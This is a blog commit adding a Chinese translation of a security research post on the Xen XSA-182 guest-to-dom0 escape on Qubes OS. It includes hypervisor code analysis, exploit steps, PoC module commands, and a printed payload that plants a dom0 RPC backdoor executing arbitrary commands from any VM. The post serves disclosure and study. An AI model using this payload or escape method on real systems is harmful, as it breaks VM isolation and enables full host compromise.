

Before and after one commit to QihooGearTeam/QihooGearTeam.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
2016-08-08

````diff
--- /dev/null
+++ b/_posts/2016-08-08-xsa-182-qubes-escape.md
@@ -0,0 +1,335 @@
+---
+layout: post
+title: "Xen攻击第三篇:XSA-182--逃逸Qubes"
+---
+
+**原链: <http://blog.quarkslab.com/xen-exploitation-part-3-xsa-182-qubes-escape.html>**
+
+**作者: Jeremie Boutoille、Gabriel Campana**
+
+**译者: Au2o3t@GearTeam**
+
+**审校: Terence@GearTeam**
+
+**Xen作现代虚拟化平台的一个重要代表,它的安全性值得全世界黑客的关注。这是Xen攻击系列关于Xen安全的最后一篇(1)(2)。本文讲述通过我们自己发现的漏洞(XSA-182)(0)(CVE-2016-6258)转而在 Qubes 系统项目中实现攻击利用。**
+
+我们会先阐述发现漏洞的方法,再来探讨 Qubes 系统上的利用。需要强调说明的是,该漏洞并不在 Qubes 系统代码中,但由于 Qubes 系统依赖Xen,因此受此漏洞影响。
+
+<!-- more -->
+
+详细内容见 Qubes 的安全公告 #24 (8)。
+
+![][1]
+
+截图显示的是新装的 Qubes 系统。终端在攻击者获得访问的不可信虚拟机中运行。利用漏洞,其可以完全控制 dom0。由此便能用 shell 脚本在 dom0 执行任意命令(如图中灰色边框和标题的计算器),从而访问其它虚拟机。
+
+# 漏洞发现
+
+写完 XSA-148(2) 的利用,我们对半虚拟化客户机的内存管理内幕感到好奇。由于 PV 客户机内核运行在3环,任何特权操作必须通过超级调用实现。Xen 必须模拟一些机制来保护运行在3环的内核。对于半虚拟化来说,从3环跳到0环也就意味着虚拟机逃逸。
+
+## GDT的例子
+
+举个有趣的例子:全局描述符表(GDT)。GDT 包含内存段的信息,也包含调用门,陷阱门,任务切换段(TSS)和任务门。这些机制允许特权转换。某些机制是很复杂的,应严格验证任何对 GDT 的更新。作为 GDT 条目传给 alloc_segdesc_page 函数的每一页由 check_descriptor 函数作检查。这个不太长的函数没一句是多余的:
+
+```
+/* Returns TRUE if given descriptor is valid for GDT or LDT. */
+int check_descriptor(const struct domain *dom, struct desc_struct *d)
+{
+    u32 a = d->a, b = d->b;
+    u16 cs;
+    unsigned int dpl;
+
+    /* A not-present descriptor will always fault, so is safe. */
+    if ( !(b & _SEGMENT_P) )
+        goto good;
+
+    /* Check and fix up the DPL. */
+    dpl = (b >> 13) & 3;
+    __fixup_guest_selector(dom, dpl);
+    b = (b & ~_SEGMENT_DPL) | (dpl << 13);
+
+    /* All code and data segments are okay. No base/limit checking. */
+    if ( (b & _SEGMENT_S) )
+    {
+        /* SNIP SNIP SNIP */
+        goto good;
+    }
+
+    /* Invalid type 0 is harmless. It is used for 2nd half of a call gate. */
+    if ( (b & _SEGMENT_TYPE) == 0x000 )
+        goto good;
+
+    /* Everything but a call gate is discarded here. */
+    if ( (b & _SEGMENT_TYPE) != 0xc00 )
+        goto bad;
+
+    /* Validate the target code selector. */
+    cs = a >> 16;
+    if ( !guest_gate_selector_okay(dom, cs) )
+        goto bad;
+    /*
+     * Force DPL to zero, causing a GP fault with its error code indicating
+     * the gate in use, allowing emulation. This is necessary because with
+     * native guests (kernel in ring 3) call gates cannot be used directly
+     * to transition from user to kernel mode (and whether a gate is used
+     * to enter the kernel can only be determined when the gate is being
+     * used), and with compat guests call gates cannot be used at all as
+     * there are only 64-bit ones.
+     * Store the original DPL in the selector's RPL field.
+     */
+    b &= ~_SEGMENT_DPL;
+    cs = (cs & ~3) | dpl;
+    a = (a & 0xffffU) | (cs << 16);
+
+    /* Reserved bits must be zero. */
+    if ( b & (is_pv_32bit_domain(dom) ? 0xe0 : 0xff) )
+        goto bad;
+
+ good:
+    d->a = a;
+    d->b = b;
+    return 1;
+ bad:
+    return 0;
+}
+```
+
+仔细看看这段令人抓狂的代码,Intel 文档是唯一能让你了解每一位含义的帮手。热心读者会发现代码中的注释:调用门通过强制设置 DPL 描述符为0,导致一般保护错误来仿真。相信我,调用门的代码仿真是个噩梦(好奇的读者参见函数 emulate_gate_op)。
+
+既然我们没发现 GDT 管理的漏洞,那么接下来就再看看页表管理吧。
+
+## 页表管理
+
+首先,我们模糊测试 HYPERVISOR_mmu_update 这个超级调用。我们的想法是生成一个随机页表条目并更新,若能成功的话,检查新映射是否危险。我们需要定义一个危险映射的列表,如:
+
+* 一个L1条目以 USER 和 RW 标志映射另一个 Lx 表,
+* 一个 L2/L3/L4 条目以 PSE,USER和 RW 标志映射另一个Lx表,
+* 一个 Ly 条目以 USER和 RW 标志映射另一个 Lx 表,且 x != y-1。
+
+模糊测试前,我们先手动检查是否可以建立这样的映射。最后一种情况很有趣,且必须解释一下。让我们想象一个 L4 条目以 RW 标志映射它自身。使用特定的虚拟地址,L4 变为可写,Xen “不变性”被绕过。这样建立的映射能通过 Xen 的安全检查:
+
+```
+#define define_get_linear_pagetable(level)                                  \
+static int                                                                  \
+get_##level##_linear_pagetable(                                             \
+    level##_pgentry_t pde, unsigned long pde_pfn, struct domain *d)         \
+{                                                                           \
+    unsigned long x, y;                                                     \
+    struct page_info *page;                                                 \
+    unsigned long pfn;                                                      \
+                                                                            \
+    if ( (level##e_get_flags(pde) & _PAGE_RW) )                             \
+    {                                                                       \
+        MEM_LOG("Attempt to create linear p.t. with write perms");          \
+        return 0;                                                           \
+    }                                                                       \
+                                                                            \
+    if ( (pfn = level##e_get_pfn(pde)) != pde_pfn )                         \
+    {                                                                       \
+        /* Make sure the mapped frame belongs to the correct domain. */     \
+        if ( unlikely(!get_page_from_pagenr(pfn, d)) )                      \
+            return 0;                                                       \
+                                                                            \
+        /*                                                                  \
+         * Ensure that the mapped frame is an already-validated page table. \
+         * If so, atomically increment the count (checking for overflow).   \
+         */                                                                 \
+        page = mfn_to_page(pfn);                                            \
+        y = page->u.inuse.type_info;                                        \
+        do {                                                                \
+            x = y;                                                          \
+            if ( unlikely((x & PGT_count_mask) == PGT_count_mask) ||        \
+                 unlikely((x & (PGT_type_mask|PGT_validated)) !=            \
+                          (PGT_##level##_page_table|PGT_validated)) )       \
+            {                                                               \
+                put_page(page);                                             \
+                return 0;                                                   \
+            }                                                               \
+        }                                                                   \
+        while ( (y = cmpxchg(&page->u.inuse.type_info, x, x + 1)) != x );   \
+    }                                                                       \
+                                                                            \
+    return 1;                                                               \
+}
+```
+
+上面代码定义了用于创建检查给定等级页表自映射条目的函数的宏。若 RW 位为1的条目被直接创建,管理程序会返回错误。但 XSA-148(2)中有设置安全标志的快速路径。这样更新的条目因被认为是安全的,不会检查“不变性”。 `_PAGE_REW` 作为标志的一部分,同样被认为是安全的:
+
+```
+/* Update the L4 entry at pl4e to new value nl4e. pl4e is within frame pfn. */
+static int mod_l4_entry(l4_pgentry_t *pl4e,
+                        l4_pgentry_t nl4e,
+                        unsigned long pfn,
+                        int preserve_ad,
+                        struct vcpu *vcpu)
+{
+    struct domain *d = vcpu->domain;
+    l4_pgentry_t ol4e;
+    int rc = 0;
+
+    if ( unlikely(!is_guest_l4_slot(d, pgentry_ptr_to_slot(pl4e))) )
+    {
+        MEM_LOG("Illegal L4 update attempt in Xen-private area %p", pl4e);
+        return -EINVAL;
+    }
+
+    if ( unlikely(__copy_from_user(&ol4e, pl4e, sizeof(ol4e)) != 0) )
+        return -EFAULT;
+
+    if ( l4e_get_flags(nl4e) & _PAGE_PRESENT )
+    {
+        if ( unlikely(l4e_get_flags(nl4e) & L4_DISALLOW_MASK) )
+        {
+            MEM_LOG("Bad L4 flags %x",
+                    l4e_get_flags(nl4e) & L4_DISALLOW_MASK);
+            return -EINVAL;
+        }
+
+        /* Fast path for identical mapping and presence. */
+        if ( !l4e_has_changed(ol4e, nl4e, _PAGE_PRESENT) )
+        {
+            adjust_guest_l4e(nl4e, d);
+            rc = UPDATE_ENTRY(l4, pl4e, ol4e, nl4e, pfn, vcpu, preserve_ad);
+            return rc ? 0 : -EFAULT;
+        }
+```
+
+这段代码在条目及 PRESENT 标志不变时使用快速路径,可使我们在自映射条目中设置 RW 标志。
+
+我们可以如下步骤:
+
+* 创建不带 RW 标志的自映射条目,
+* 通过快速路径添加 RW 标志
+* 以写权限访问页目录
+* 虚拟机逃逸
+
+下面的方案说明了这样一个在条目42上的内存映射:
+
+```
+VADDR : (42 << 39) | (42 << 30) | (42 << 21) | (42 << 12)
+         +------------+------------+------------+
+         |
+         |            L4
+CR3 -----|---->+-------------+<-+
+         |    0|.............|  |
+         |     |.............|  |
+         |     |.............|  |
+         +-->42|L4, RW, U, P |--+
+               |.............|
+               |.............|
+            511|.............|
+               +-------------+
+```
+
+# 利用
+
+利用情况和XSA-148(2)案例完全一样:
+
+* 遍历整个宿主机内存,
+* 寻找页目录,
+* 以 start_info 结构定位 dom0,
+* 找到 vDSO 页并补丁之,
+* 在 dom0 中拿到root shell。
+
+如介绍中所述,我们决定在 Qubes 系统中利用漏洞。如果你一点都不了解 Qubes,这里有一些网上的信息(4):
+
+```
+Qubes 操作系统是什么?
+
+Qubes 是一个安全的操作系统(OS),OS 是在计算机上运行其它所有程序的软件,一些流行的操作系统如微软的 Windows 系统,苹果 OS X,安卓,IOS。Qubes 是自由且开源的(FOSS)。这意味着每个人都可以自由使用,复制,并以任何方式改变软件。这也意味着其源代码是公开的,任何人都可以贡献源码和进行审计。
+
+Qubes 系统如何保证安全?
+
+Qubes使用名为“安全隔离”的方法,允许用户把数字生活的各部分隔离到安全分离的虚拟机中(VMS)。虚拟机基本上是一个在物理计算机上运行的模拟有自己的操作系统的计算机软件。你可以把一个虚拟机作为一台计算机内的计算机。
+```
+
+Qubes系统使用Xen管理器管理隔离的虚拟机。若攻击者能在其虚拟机中从 Qubes的dom0执行代码,则系统不能保证任何安全。在dom0中执行代码已经实现了,但由于Qubes提供了防火墙,我们不能使用经典的netcat,必须换一个载体。
+
+看看 Qubes RPC服务(5)。RPC服务允许 Qubes 系统中虚拟机间通信,如剪切板,文件拷贝等等。各服务都有指定源虚拟机,目的虚拟机以及申请策略(允许,拒绝或询问)。
+
+我们的想法是,在 dom0 环境中执行一段代码来添加一个 RPC 服务。我们可以用scumjr(6)的方法优雅的办到:
+
+```
+python:
+        ;;      mov     rcx, rip+8
+        lea     rcx, [rel $ +8]
+        ret
+        db '-cimport os;x=open("/tmp/.x", "w");x.close();'
+        db 'service=open("/etc/qubes_backdoor", "w");'
+        db 'service.write("#!/bin/bash\n");'
+        db 'service.write("read arg1\n");'
+        db 'service.write("($arg1)\n");'
+        db 'service.close();'
+        db 'os.system("chmod +x /etc/qubes_backdoor");'
+        db 'rpc=open("/etc/qubes-rpc/qubes.Backdoor", "w");'
+        db 'rpc.write("/etc/qubes_backdoor\n");'
+        db 'rpc.close();'
+        db 'policy=open("/etc/qubes-rpc/policy/qubes.Backdoor", "w");'
+        db 'policy.write("$anyvm dom0 allow");'
+        db 'policy.close();'
+        db      0
+```
+
+增加了一个名为 qubes 的服务。后门执行每一个给定的命令。
+
+由于此漏洞一周前刚披露,我们不想今天就发布一份完整利用,给用户带来风险。但提供一份 Xen 漏洞的PoC:[xsa-182-poc.tar.gz](https://blog.quarkslab.com/resources/2016-08-04-xen_exploitation_part_3_xsa_148/xsa-182-poc.tar.gz):
+
+```
+$ tar xzvf xsa-182-poc.tar.gz
+$ make -C xsa-182-poc/
+$ sudo insmod xsa-182-poc/xsa-182-poc.ko
+$ sudo rmmod xsa-182-poc
+$ dmesg | grep xsa-182
+```
+
+如果你使用的是有漏洞的 Qubes 版本,通过 Qubes 虚拟机管理器升级dom0软件或使用如下命令即可:
+
+```
+$ sudo qubes-dom0-update
+```
+
+# 硬件虚拟化和虚拟机管理程序的安全性
+
+在CanSecWest 2010 上Julien Tinnès 和Tavis Ormandy 在Virtualisation security和 Intel privilege model的演讲中解释了虚拟化的不同类型,并指出了开发安全hypervisor所面临的挑战。事实上半虚拟化非常复杂,和二进制翻译很相似。如介绍所述,要使处理所有细节都像一个真CPU很困难。半虚拟化错误通常会导致客户机提权或客户机逃逸。没有硬件虚拟化时,二进制翻译和半虚拟化是强制性的,但Intel VT-x 和 AMD SVM技术的推出改变了这种情况。
+
+由于一些新增的CPU指令,硬件虚拟化使Hyper-visor的开发更容易和安全得多。二级地址翻译(10)(Inter的EPT 和AMD的RVI)可以避免影子页表的复杂性。我们并不认为半虚拟化和硬件虚拟化的客户机之间有明显差异,虽然我们没有一个标准。
+
+此外,依托硬件虚拟化的Hyper-visor安全性还可以继续提高。谷歌采取的减少KVM攻击面的方法似乎很有吸引力(11)(12)。许多功能被移至用户空间,因此可以很容易放在沙盒中。对设备的模拟会引入巨大的攻击面,KVM不像Xen,其似乎不能在非可信虚拟机中隔离设备。
+
+# 结论
+
+半虚拟化安全确实很难得到保证。其引入了非常复杂的代码,且有很多安全问题。Qubes系统决定从 4.0版(7)启强制使用硬件虚拟化,去除半虚拟化。我们相信这是一个英明的决定,因为硬件虚拟化的安全问题较少。
+
+最近我们又发现了另一个影响半虚拟化客户机,能使客户机逃逸到宿主机的漏洞。然而,我们认为不需要另写一篇博文,因为其和本漏洞极其相似。
+
+希望你们能喜欢这3篇写Xen的文章!感谢每一个为这些文章贡献过的人;)
+
+(0) <http://xenbits.xen.org/xsa/advisory-182.html>
+
+(1) <http://blog.quarkslab.com/xen-exploitation-part-1-xsa-105-from-nobody-to-root.html>
+
+(2) (1, 2, 3, 4) <http://blog.quarkslab.com/xen-exploitation-part-2-xsa-148-from-guest-to-host.html>
+
+(3) <https://www.qubes-os.org/>
+
+(4) <https://www.qubes-os.org/tour/#what-is-qubes-os>
+
+(5) <https://www.qubes-os.org/doc/qrexec3/>
+
+(6) <https://scumjr.github.io/2016/01/10/from-smm-to-userland-in-a-few-bytes/>
+
+(7) <https://www.qubes-os.org/news/2016/07/21/new-hw-certification-for-q4/>
+
+(8) <https://github.com/QubesOS/qubes-secpack/blob/master/QSBs/qsb-024-2016.txt>
+
+(9) <https://www.cr0.org/paper/jt-to-virtualisation_security.pdf>
+
+(10) <https://en.wikipedia.org/wiki/Second_Level_Address_Translation>
+
+(11) <https://lwn.net/Articles/619376/>
+
+(12) <http://www.linux-kvm.org/images/f/f6/01×02-KVMHardening.pdf>
+
+(13) <http://blog.quarkslab.com/resources/2016-08-04-xen_exploitation_part_3_xsa_148/xsa-182-poc.tar.gz>
+
+[1]: https://blog.quarkslab.com/resources/2016-08-04-xen_exploitation_part_3_xsa_148/qubes_escape.png
````
Also changed, not shown: _posts/2016-08-01-xsa-148-from-guest-to-host.md (+1 -1 lines).
